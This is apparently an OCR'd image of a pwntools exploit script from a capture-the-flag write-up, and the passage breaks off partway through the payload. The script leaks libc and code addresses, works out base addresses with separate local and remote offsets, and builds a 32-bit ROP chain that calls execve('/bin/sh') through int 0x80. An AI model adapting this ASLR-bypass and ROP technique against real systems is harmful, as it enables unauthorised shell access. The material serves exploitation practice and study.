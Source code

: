 ```
libc_leak = int(p.recvline()[:-1], 0)
log.info("libc leak is: {}".format(hex(libc_leak)))

# Since my local machine and the remote server use different libc versions, the offset
# for puts is different for each.
if args.REMOTE:
    puts_offset = 0x067b40
else:
    puts_offset = 0x67c10

# We can now calculate the libc base using this offset.
libc_base = libc_leak - puts_offset
log.info("libc base is: {}".format(hex(libc_base)))

# Since we don't yet have the code region leak, we respond 'n' to this question.
p.sendline(b"n")

# By responding 'y' to this question, we can extract a code region leak.
p.sendline(b"y")
p.recvuntil("is: ")
code_leak = int(p.recvline()[:-1], 0)
log.info("code leak is: {}".format(hex(code_leak)))

# Using the calculated offset, we can determine the code region base address.
code_base = code_leak - 0x713
log.info("code base is: {}".format(hex(code_base)))

# By entering 0 as our favourite number, the program loops and we can start placing
# our input into the buffers.
p.sendline(b"0")
p.sendline(b"A")

# If we respond 'y' to this question, and give 0 as our favourite number, this gives
# us an input bufffer in which we will place our ROP chain.
p.sendline(b"y")
p.sendline(b"0")

# Using ropper, we can find a binary gadget that is simply 'ret;', which we will use
# to construct our ret sled.
retSlide = code_base + 0x000004a6

# Once again, since different versions of libc are used locally and remotely, the libc
# offsets for these gadgets differ.
if args.REMOTE:
    xor_eax = p32(libc_base + 0x0002e485)
    inc_eax = p32(libc_base + 0x00008aac)
    pop_ebx = p32(libc_base + 0x00018be5)
    bin_sh = p32(libc_base + 0x0017e0cf)
    pop_ecx_edx = p32(libc_base + 0x0002d54c)
    int_80 = p32(libc_base + 0x00002d37)
else:
    xor_eax = p32(libc_base + 0x0002e4d5)
    inc_eax = p32(libc_base + 0x00024b68)
    pop_ebx = p32(libc_base + 0x00018bf5)
    bin_sh = p32(libc_base + 0x0017e3cf)
    pop_ecx_edx = p32(libc_base + 0x0002d59c)
    int_80 = p32(libc_base + 0x00002d37)

# Once we have the addresses for all our gadgets, we can construct a ROP chain to
# pop a shell.
payload = (
    xor_eax + # xor eax, eax; ret;
    inc_eax * 11 + # inc eax; ret;
```
